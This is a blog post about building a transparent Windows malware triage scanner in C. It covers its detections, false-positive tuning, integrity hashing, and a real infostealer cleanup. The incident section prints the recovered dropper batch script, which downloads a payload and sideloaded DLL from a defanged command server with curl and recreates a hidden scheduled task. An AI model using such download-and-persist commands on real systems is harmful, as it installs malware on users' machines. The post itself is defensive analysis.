






# I Built My Own Antivirus in C, and It Caught a Real Infostealer

## What a transparent, 970 KB Windows scanner taught me about trust, false positives, and the malware already on my machine

I stopped trusting my antivirus the day I realized I had no idea what it was doing. It scanned, it flagged, it sat in the tray with a green checkmark. When it stayed silent, was that because my machine was clean, or because the threat was something it had never seen? I could not tell. A green checkmark is a promise with no proof.

So I built my own. SentinelC is a single native-C executable for Windows. It is under a megabyte, it has no installer, no cloud, no kernel driver, and it finishes a full system scan in under two minutes. Every alert it raises cites the exact rule and the exact evidence that triggered it. You can read every detection in the source. And when I pointed it at my own laptop, running as administrator, it found an active infostealer's persistence sitting in a scheduled task that my real antivirus had walked past.

This is the story of how it works, what it gets right, where it is honestly worse than a commercial product, and the live incident it surfaced. I will show you the architecture, the detection tricks, the false-positive war that nearly sank it, and the moment a fake "Microsoft Edge update" task turned out to be a malware loader.

### Key topics

1. Why a transparent triage scanner beats a black box, and where it loses
2. The module-and-bus architecture, and the correlation pass that cuts noise
3. Cross-view detection: catching a process that hides from one Windows API but not another
4. The false-positive war: how 633 findings and 67 false criticals became 50 findings and zero
5. A Merkle tree over every executable, so you know exactly what changed since yesterday
6. The gated responder, and why "do nothing" is the default
7. The real incident: an infostealer living in a scheduled task, invisible until I ran as admin
8. Building the whole thing with a swarm of AI agents that audited each other's code

The first three sections are free. The rest, where it gets into the calibration fight, the file-integrity engine, and the live malware hunt, are for paid subscribers.

## The problem with trusting a black box

Commercial antivirus is good at one thing: matching known-bad signatures against a giant cloud corpus, fast, with machine-learning models you will never see. That is real value. It is also the exact thing a solo developer cannot replicate. I have no telemetry from ten million machines. I have no threat-intel feed updating every hour.

What I do have is the ability to make a tool that is fast, transparent, and mine. A commercial scanner answers "is this a known threat?" A triage scanner answers a different question: "what on this machine is acting like a threat, right now, and can you show me why?" Those are not the same question, and the second one is the one you ask when you already suspect something is wrong.

Here is the honest positioning, the part most security tools bury. SentinelC will not out-detect Microsoft Defender on signature breadth. Defender has the corpus and the cloud, and it wins that race every time. SentinelC wins on speed, on transparency, and on host-level triage you fully control. It enumerates everything that runs, persists, listens, or hooks your keyboard, scores each artifact with rules you can read, and hands you a ranked list with evidence attached. It is a flashlight, not a force field.

That framing shaped every decision. I did not try to build a real-time blocker, because a user-mode tool cannot do that well and I would be lying to you about the protection. I built an on-demand scanner that you run when you want answers, that tells you what it could not inspect, and that never pretends a clean result means you are safe. The output ends with a "Limitations" section every single time, listing what it skipped and why. A tool that hides its blind spots is worse than no tool, because it manufactures false confidence.

The whole thing is one `.exe` you run from an administrator command prompt. No agent humming in the background, no service, no auto-update phoning home. You point it at your machine, it reports, and it exits. If that sounds primitive next to a modern endpoint product, it is. It is also auditable in an afternoon, which no modern endpoint product is.

## How it's wired

The shape of the code is simple on purpose. There is a small core (the CLI, a thread pool, a shared finding bus, and a reporter), a set of independent scanner modules that each look for one family of badness, and a responder that can act on what the scanners find. Nothing is clever about the topology. The cleverness lives in the individual detections and in one correlation pass at the end.



Every scanner is read-only and writes nothing to the system. It only emits findings into a shared bus. That single rule, scanners produce findings and never act, is what makes the whole thing safe to run and easy to reason about. A finding is a flat record: a rule id, a severity, a confidence score, the evidence string, the target path or PID, and a recommended action.

```c
typedef struct {
    char       rule_id[40];   /* e.g. "PROC.MASQUERADE" */
    Severity   severity;      /* INFO..CRIT */
    int        confidence;    /* 0..100 */
    char       title[160];
    char       evidence[1024];/* human-readable proof */
    char       target[1024];  /* path / service name / "pid 1234" */
    DWORD      pid;
    ActionKind recommended;   /* REVIEW / KILL / DISABLE_SVC / QUARANTINE */
} Finding;
```

That `evidence` field is the heart of the design. A finding is not allowed to exist without a human-readable reason. When the process scanner flags a binary, it does not just say "suspicious." It says "svchost.exe at C:\Users\you\AppData runs from a user-writable path, unsigned." The rule id lets you grep the source and read the exact logic. There is no hidden model. If you disagree with a detection, you can see why it fired and turn it off.

The scanners run in parallel on a Win32 thread pool, with one ordering constraint. The process scanner runs first and to completion, because it builds a shared cache of every process (path, parent, signature, token, command line) that the network, service, and keylogger scanners all read. Re-enumerating processes in four different modules would be slow and would produce four slightly different views of a moving system. One pass, one cache, shared.

The part that earns its keep is the correlation pass. Individual rules produce individual mediums. A process running from a temp folder is a medium. A process listening on a socket is a medium. A process with a Run key is a medium. On their own, each is noise you would scroll past. But the same PID lighting up across three different families is not noise, it is a shape.

```c
/* a pid seen across >= 2 finding families becomes one ranked alert */
if (a->fam_count >= 2 && !signed_ok) {
    bus_emit(b, "CORR.IMPLANT", SEV_CRIT, 90, ACT_REVIEW, a->pid, target,
             "Multi-signal implant: process correlated across families",
             "%s", evidence_summary);
}
```

The correlation pass walks the finished bus, groups findings by PID, and promotes any process that fired across two or more families into a single high-confidence `CORR.IMPLANT` alert. The `signed_ok` check matters: a validly signed binary that happens to run from AppData and listen on a port is almost always a legitimate app, not an implant, so it does not get escalated. That one guard is the difference between flagging a real loader and screaming about your password manager. I will come back to why I had to add it, because the first version did scream about everything.

## Cross-view: catching what hides from one API

Here is the trick I am most fond of, and it costs nothing but a clear idea. Windows gives you several different ways to list the running processes. There is the old Toolhelp snapshot, the `EnumProcesses` call from psapi, the low-level `NtQuerySystemInformation` from ntdll, and the terminal-services enumerator. They all answer the same question: what is running? On a clean machine, they all return the same answer.

A user-mode rootkit hides a process by hooking one of those code paths. It intercepts the call your tool is most likely to use, scrubs its own PID from the list, and returns the censored result. The trick works because most tools ask exactly one way. So I ask four, and compare.



If a PID shows up in the Toolhelp snapshot but is missing from the `NtQuerySystemInformation` view, one of those two code paths is lying. A hidden process is not the only explanation, a process can exit in the microseconds between two enumerations, so I re-confirm each suspect with a direct handle open before I raise the alarm. But a PID that genuinely exists and is hidden from a list-everything API is the signature of a hook.

```c
/* build PID sets from four independent sources, then diff */
collect_toolhelp(&a);          /* CreateToolhelp32Snapshot */
collect_enumprocesses(&b);     /* EnumProcesses (psapi)    */
collect_ntquery(&c, &nt);      /* NtQuerySystemInformation */
collect_wts(&d);               /* WTSEnumerateProcesses    */
/* a PID in one set, absent from another that lists everything else,
 * re-confirmed alive via OpenProcess -> RK.HIDDEN_PROC (CRITICAL) */
```

Each `collect_` function fills a fixed-size PID set from one API. The diff is plain set arithmetic: anything present in one source and absent from another that otherwise agrees gets re-verified and flagged. The same idea extends to files (compare a directory listing from `FindFirstFile` against the lower-level `NtQueryDirectoryFile`) and to drivers (enumerate loaded kernel modules and flag any that are unsigned or live outside the system driver folder).

Now the honesty, because this is where most "rootkit detector" claims fall apart. This is a user-mode technique. A kernel rootkit that hooks below all of these APIs, or that unlinks its process object from the kernel's own list so every user-mode call returns the same lie, will defeat cross-view entirely. SentinelC says so, in the evidence text of every rootkit finding, on every run. It catches the common user-mode hooks and the naive hiders. It does not catch a competent kernel implant, and it will tell you that to your face. The only way to truly see a kernel rootkit is from the kernel, which means a signed driver, which is the version-two project I have not built yet.

That limitation is not a footnote. It is the whole reason I refuse to call this an antivirus replacement. It is a triage tool that is honest about the ceiling of what user-mode code can see. The free part of this post ends here, with the architecture and the one genuinely clever detection in your hands. What follows is the messy part: the calibration fight that made it usable, the file-integrity engine, the safety model, and the live infostealer it pulled out of my own scheduled tasks.

🔒 The rest of this post is for paid subscribers. Below this line: the false-positive war that turned 633 noise findings into 50 real ones, the Merkle-tree integrity monitor, the gated responder, and a full walkthrough of the active malware SentinelC caught on my machine.

## The false-positive war

The first time I ran a full scan, it returned 633 findings. Sixty-seven of them were marked CRITICAL. I knew my machine was not host to 67 critical threats, which meant my tool was broken in the way that matters most: it cried wolf so loudly that a real wolf would be invisible in the noise. A scanner you cannot trust is worse than no scanner, because you learn to ignore it, and then you ignore the one alert that counts.



I pulled the findings apart by rule. The single worst offender was `SVC.UNSIGNED`, firing 440 times. Almost every driver on my system was being flagged as unsigned. That made no sense, because most of them ship from Microsoft. The bug was not in the signature check, it was in the path I handed to it. Windows hands you driver paths in NT-internal forms that a normal file open cannot resolve.

```c
/* the SCM returns driver paths the file API cannot open: */
\SystemRoot\System32\drivers\WdFilter.sys   /* needs %WINDIR% */
\??\C:\Windows\System32\drivers\volsnap.sys  /* NT object path */
System32\DRIVERS\wanarp.sys                  /* relative, no drive */
```

My code passed these strings to the signature verifier as-is. The verifier could not open `\SystemRoot\...`, returned "no valid signature," and the rule dutifully flagged a legitimate Microsoft driver. The fix was to normalize the path first, expand `\SystemRoot\` to the real Windows directory, strip the `\??\` prefix, resolve relative paths against the system folder, before asking whether it is signed. The most embarrassing example: my tool was flagging WdFilter.sys, which is Microsoft Defender's own filter driver. I had built a scanner that accused the antivirus of being malware. After the fix, `SVC.UNSIGNED` dropped from 440 to zero on a clean machine.

The second offender was `NET.SHELL_SOCKET`, my reverse-shell detector, firing 61 times as CRITICAL. A reverse shell is rare and serious, so 61 of them is obviously wrong. The original rule flagged any process that had a network socket and a child shell. That describes every terminal, every IDE, every git command on a developer's machine. I had written a rule that defined "normal development" as "critical compromise."

The rewrite required all of a narrow set of conditions: an established outbound connection, to a public routable IP, owned by a process that is itself a shell, with a corroborating signal like an unsigned binary or a temp-folder path. A real reverse shell, a netcat from a downloaded executable to an attacker's server, still fires. PowerShell windows you opened yourself, connected to the internet, parented by your terminal, produce nothing. From 61 to zero on a normal machine, and the genuine case still trips it.

The third was `PROC.RWX_MEM`, firing 69 times. Private memory that is both writable and executable is a classic injection signature. It is also completely normal: .NET's JIT compiler uses it, every browser uses it, games use it, your antivirus uses it. As a standalone CRITICAL it was pure noise. I did not delete the check, I gated it. RWX memory only raises a finding now when the process carries a second signal: unsigned, or running from a user-writable path, or masquerading as a system process. A signed binary in System32 with RWX memory is a JIT, not an implant, and it stays quiet.

Three fixes, and 633 findings became 50, with zero false criticals. The lesson generalizes past this tool. A detection that fires on a clean machine is not a detection, it is a tax on the user's attention, and attention is the only resource a security tool actually spends. Every rule has to earn its place by staying silent when nothing is wrong. The hard work in a scanner is not finding the bad thing. It is not flinching at the ten thousand benign things that look a little like it.

## A Merkle tree for your executables

Signature scanning answers "is this file known-bad?" Integrity monitoring answers a question I find more useful day to day: "what changed?" If you know the exact set of executables, drivers, and scripts on your machine yesterday, then anything different today is worth a look, whether or not a signature exists for it. That is how you catch the novel thing, the zero-day dropper that no corpus has seen.

So I built a file-integrity monitor on a Merkle tree. The idea is old and elegant. You hash every file you care about, combine those hashes pairwise up a tree, and the single root hash at the top fingerprints the entire set. If one byte in one file changes, the root changes. One comparison tells you whether anything at all moved.



The leaf design carries a small but important detail. A leaf is not just the file's content hash. It is a hash of the lowercased path combined with the content hash. Binding the path into the leaf means a renamed file shows up as a removal plus an addition, not a silent move, which is exactly the behavior you want when an attacker swaps a good binary's name onto a bad one.

```c
/* leaf binds identity (path) to content, so a rename is visible */
sha256( lowercased_utf8_path || 0x00 || raw_content_sha256 ) -> leaf
/* parents: sha256(left || right), odd tail duplicated, up to one root */
```

You run it once with `--baseline` to record the current state, and later with `--integrity` to diff against it. The Merkle root gives you the instant yes-or-no on whether anything changed. The per-file manifest gives you the detail: every added, removed, or modified file, by absolute path, in plain text or JSON. The root is the alarm bell, the manifest is the list of what tripped it.

I baselined 143,737 executable-related files across the system folders in about ten minutes. That is slow, because it hashes every byte of every file, and I made one deliberate choice there. The progress display is byte-based, not file-based, because hashing time scales with bytes, not with file count. A single 280 MB binary takes longer than a thousand 4 KB scripts, so a file-count progress bar would lie about the time remaining. The bar reads the total bytes first, then reports real percent and a real estimate.

There is a subtle failure mode integrity monitoring catches that signature scanning misses. An attacker who modifies a file and then backdates its timestamp defeats any "what changed since this date" check based on modification times. The content hash does not care about the timestamp. If the bytes differ from the baseline, the Merkle diff flags it, no matter what the file claims its age is. That is the entire reason to hash instead of trusting metadata.

## The responder, and why dry-run is the default

A scanner that can only report is half a tool. When you find a live implant, you want to kill it, disable its service, and quarantine its files, now. But a tool that can terminate processes and delete files is also a tool that can wreck a system, so the entire responder is built around one principle: it does nothing destructive unless you explicitly ask, and even then it asks again.



Every run is a dry run by default. No process is killed, no service is touched, no file is moved, unless you pass a specific action flag. When you do, two gates stand in front of the action. The first refuses to touch a critical system process, the kernel, the session manager, the security subsystem, unless you override it with an explicit force flag. The second is a confirmation prompt that defaults to no.

```c
/* the confirm gate: silence, EOF, or anything but 'y' means no */
if (!cfg->assume_yes) {
    printf("About to KILL pid %lu (%s) [y/N]: ", pid, path);
    if (!fgets(line, sizeof line, stdin)) return false;  /* EOF -> no */
    if (line[0] != 'y' && line[0] != 'Y') return false;
}
```

The default-to-no logic is deliberate and defensive. A closed stdin, an end-of-file, a blank line, anything that is not an explicit "y," is treated as "do not proceed." The dangerous direction is acting when you should not, so every ambiguous input falls toward safety. Quarantine moves a file into a locked folder with a deny-all permission set and records where it came from, so nothing is ever truly deleted and you can always reverse it. And every attempt, refused or performed, lands in an append-only audit log with a timestamp.

That audit log turned out to matter for a reason I did not anticipate when I wrote it. When the responder ran against the real malware later, the log became the record of exactly what I touched and when, which is the difference between cleanup and guesswork. If you are going to act on a live system, you want a paper trail more than you want speed.

## The incident: an infostealer hiding in a scheduled task

Everything above is design. This is what happened when I ran it for real, as administrator, on my own laptop.

The non-elevated scan came back almost clean. Twelve high-severity findings, all explainable: signed audio drivers that hook the keyboard for volume keys, PowerToys, a couple of developer tools listening on local ports. Nothing critical. If I had stopped there, I would have called my machine healthy. I almost did.

Then I ran it elevated, and the picture changed, because a normal user account cannot read the Windows scheduled-tasks folder. Non-elevated, that entire persistence surface is access-denied, invisible, a blind spot the size of a barn door. Elevated, SentinelC enumerated 122 scheduled tasks, and two of them were not what they claimed to be.



The first task was named `MicrosoftEdgeUpdateSvc`. It looked like a browser updater. It launched a file called `DockerDesktop.exe` out of a randomly named folder, `EdgeUpdate-x7gv1pw9`, in my roaming profile. An Edge update task that runs a Docker binary from a random folder is three lies stacked on top of each other. I looked at the folder. The `DockerDesktop.exe` was zero bytes. Next to it sat a zero-byte `libcef.dll`.

That zero-byte pair is the tell. `libcef.dll` is the Chromium Embedded Framework, a real library that real apps load. Dropping an empty file with that name next to an executable is DLL sideloading: when the executable runs, Windows loads the attacker's `libcef.dll` from the same folder before checking the system copy. The files were empty because the payload had been partially cleaned, but the loader skeleton and the scheduled task survived. Both files were created the morning of the scan, which means something on the machine was re-staging the persistence. The task fires at every logon. When the payload re-downloads, the loader runs, and the implant reaches back out to its command-and-control server.

I had a record of that server from the earlier triage: `reservedljsu[.]my` (defanged here, since it was live). So I resolved it, and loaded the address into the tool's IOC list, so that any future connection to it trips an immediate alert. The point of finding the loader was not just to delete it. It was to learn the indicator and arm the scanner against the next stage.

The second task, `Microsoft Update Helper`, ran a binary that was signed, which is what makes it interesting. It was signed by a Chinese music-software company, not by Microsoft, and it lived in a folder named to impersonate a Microsoft component. Signed does not mean safe. It means someone with a valid certificate stands behind the bytes, and a deceptive folder name plus an impersonated task name is not what a trustworthy vendor does. That one was adware, lower severity than the loader, but it was running, and it had no business pretending to be a Microsoft update.

Remediation ran elevated and preserved evidence rather than shredding it. The two scheduled tasks were deleted and verified gone. The staging folder and the signed adware were moved to quarantine with their task definitions exported. The running adware process was killed. The persistence looked neutralized, and I said so.

It was not. A few scans later, running elevated again, the scanner flagged a folder I had skimmed past as innocent: `C:\ProgramData\Microsoft\EdgeUpdate\`. That is a real Microsoft path, the one the Edge auto-updater uses, which is exactly why the attacker chose it. Sitting inside were two files that did not belong to Microsoft, `update.vbs` and `update.bat`. The vbs ran the bat hidden. The bat was the whole engine.

```bat
curl -s -L -o ...\EdgeUpdate-x7gv1pw9\DockerDesktop.exe  https://reservedljsu[.]my/app.exe
curl -s -L -o ...\EdgeUpdate-x7gv1pw9\libcef.dll         https://reservedljsu[.]my/dll.php
schtasks /create /tn MicrosoftEdgeUpdateSvc /tr DockerDesktop.exe /sc onlogon /RL HIGHEST
```

That is three lines, and they explain the whole haunting. Every time the bat ran it re-downloaded the payload from the command server and recreated the scheduled task. I had been deleting the triggers, the Run keys and the tasks, and feeling productive, while the thing that rebuilds them sat untouched in a folder named like Microsoft's. Its log had been written minutes before I found it. The engine was live. I quarantined the vbs, the bat, and the second adware copy, and verified the originals were gone. That was the part the earlier cleanups had missed: you can delete every trigger and still be infected, because the engine that rebuilds the triggers is a separate file.

Then the question removal could not answer: had the stealer ever actually run, or had it only ever tried? I went to the execution artifacts. Windows records every program launch in Prefetch, and keeps a longer record in AmCache. Neither had any trace of the stealer binary. The payloads the dropper kept fetching were zero bytes, which means the command server was handing back empty files. The persistence machinery was loud and busy, and the thing it was trying to stage never arrived. The honest caveat: those records do not reach all the way back to the first day of the infection, so I cannot prove the theft never happened. But every artifact I can read says it did not succeed.

Two lessons, and the second one cost me three cleanups to learn. First, my commercial antivirus, running the whole time, never flagged any of it, because a scheduled task pointing at a zero-byte file is not a signature match and a script in a Microsoft-named folder does not look like a virus. Coverage beat cleverness; the find came from running as administrator and reading persistence surfaces the default scan skips. Second, removing what you can see is not the same as removing what is there. The triggers were visible, so I kept killing them. The engine was a quiet pair of scripts in a trusted-looking folder, and it rebuilt the triggers behind me until the scan finally pointed at the folder itself.

## Building it with a swarm of agents that audit each other

One more thing, because it changed how I think about writing this kind of code. I did not write SentinelC's nineteen modules one after another by hand. I wrote a locked header that defined every contract, the finding struct, the bus API, the scanner signatures, and then I dispatched eight AI agents in parallel, each owning a disjoint set of files, all compiling against the same fixed interface. The header was the coordination mechanism. Because the contracts could not move, the modules could not collide.

That got the thing built fast. It did not make it correct. So I ran a second wave of agents whose only job was to attack the first wave's code, one agent per group of files, each told to assume the input is hostile and find the memory-safety bug. They found eleven. A 32-bit integer overflow in the PE parser that a crafted executable could use to read out of bounds. Two out-of-bounds reads in the rootkit module's walk over kernel-supplied structures. A data race on the shared process cache.

The one that mattered most was in the signature checker. A binary signed with an untrusted certificate whose subject merely contained the word "Microsoft" was being reported as Microsoft-signed. Think about what that means for a tool whose entire job is judging trust. An attacker names their certificate "Not Microsoft Corp," signs malware with it against a root nobody trusts, and my tool calls it Microsoft-signed. That is not a bug, it is a detection bypass, in the one function the whole tool leans on. The fix was to require the certificate chain to actually validate before honoring the Microsoft label. An adversarial reviewer found it. The author, me, had written it and moved on.

I would not ship security code written by agents without that second adversarial pass, and I would not write it by hand without one either. The pattern that worked was not "let the AI write it." It was "let one set build against a locked contract, then let a separate set try to break it, and believe the breakers." The breakers are cheaper than the bug.

## What I would do differently

SentinelC is a triage tool that is honest about its ceiling, and the ceiling is real. It is user-mode, so a kernel rootkit beats its cross-view checks, and it says so on every run. Its first full scan is slow because it verifies a signature for every process and service before it caches anything. It has no real-time protection, by design, because I will not pretend a user-mode on-demand scanner is a shield. It will never match Defender's signature breadth, and it is not trying to.

What it is, is fast, transparent, and yours. Every rule is readable. Every finding cites its evidence. It runs in seconds, with no cloud and no agent, and when you run it with the privileges it needs, it sees persistence surfaces that a casual scan walks past. It found a real infostealer's loader in my task scheduler that a commercial product missed, not by being smarter, but by looking where the default does not.

If I build version two, it gets a signed kernel driver, because that is the only honest way to see a kernel rootkit, and a minifilter for real-time coverage. Until then, the value is exactly what it claims to be and nothing more: a flashlight you can read the schematics of, pointed at the parts of your machine you were told were fine. Sometimes the flashlight finds something. Mine did.
